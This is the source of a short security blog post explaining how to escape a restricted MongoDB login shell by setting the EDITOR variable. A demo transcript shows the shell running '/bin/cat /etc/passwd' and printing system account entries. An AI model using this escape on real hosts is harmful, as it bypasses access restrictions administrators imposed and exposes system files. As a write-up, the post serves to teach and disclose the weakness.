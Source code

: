 ```yaml
---
layout: post
title:  "Mongo Shell escape"
date:   2015-06-15 14:16:39
categories: security mongodb
---
```

Mongo provides a native shell for interacting with local and remote MongoDB instances. In rare cases you may find that a user's logon shell has been replaced with this Mongo shell, this could happen when there is a shared machine where you want developers/admins to access the database but not have native access to the host. Everytime the user logs in, they hit the mongo shell, can execute mongo db commands and thats it.. right? Not quite. 

The Mongo shell allows external editors to be used when editing script files. To define the external editor simply change the environment variable "EDITOR". This provides us with the opportunity to escape the restricted mongo shell and get local access on the host.

{% highlight bash %}
$ mongo
MongoDB shell version: 2.6.9
connecting to: test
> EDITOR="/bin/cat /etc/passwd"
> edit x
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
..<SNIP>..
{% endhighlight %}

A very simple escape and unlikely that you'll ever run into this. But if you do, well now you can get command execution where you shouldn't.

